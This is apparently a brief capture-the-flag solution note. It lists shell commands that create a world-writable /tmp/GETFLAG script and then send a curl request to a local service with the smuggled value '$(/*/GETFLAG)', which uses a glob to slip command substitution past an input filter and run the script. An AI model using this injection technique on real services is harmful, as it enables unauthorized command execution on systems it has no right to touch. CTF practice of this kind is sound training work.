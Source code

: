 # cmd
- `echo "getflag>/tmp/flag" > /tmp/GETFLAG`
    - create executable with uppercase
- `chmod 777 /tmp/GETFLAG`
    - give permission
- `curl 'localhost:4646?x=$(/*/GETFLAG)'`
- `cat /tmp/flag`